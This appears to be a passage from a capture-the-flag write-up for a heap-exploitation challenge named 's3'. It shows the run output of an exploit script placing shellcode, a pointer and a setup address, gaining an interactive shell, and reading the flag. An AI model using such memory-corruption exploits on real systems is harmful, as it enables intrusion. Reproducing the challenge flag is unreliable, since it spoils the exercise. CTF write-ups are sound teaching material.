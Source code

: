 Now to use it:

```
$	python exploit.py 
[+] Starting local process './s3': pid 6763
Welcome to Amazon S3 (String Storage Service)

    c <type> <string> - Create the string <string> as <type>
                        Types are:
                            0 - NULL-Terminated String
                            1 - Counted String
    r <id>            - Read the string referenced by <id>
    u <id> <string>   - Update the string referenced by <id> to <string>
    d <id>            - Destroy the string referenced by <id>
    x                 - Exit Amazon S3


>
 Your stored string's unique identifier is: 39656512

>
The shellcode is stored at: 0x25d1c40
 Your stored string's unique identifier is: 39656704

>
The space holder string is stored at: 0x25d1d00 \x00\x1d]\x00\x00\x00\x00
 Your stored string's unique identifier is: 39656560

>
The pointer is stored at: 0x25d1c70 p\x1c]\x00\x00\x00\x00
 Your stored string's unique identifier is: 39657072

>
The setup address is 0x25d1e70
 Your stored string's new unique identifier is: 39657248

>
The execution address is: 0x25d1f20
[*] Switching to interactive mode
 $ ls
Readme.md  exploit.py  peda-session-dash.txt  peda-session-s3.txt
core       flag.txt    peda-session-ls.txt    s3
$ w
 17:25:00 up 23:26,  1 user,  load average: 0.94, 0.67, 0.72
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               Tue17   23:25m 14:06   0.03s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ cat flag.txt
flag{SimplyStupidStorage}
```

Just like that, we got the flag.

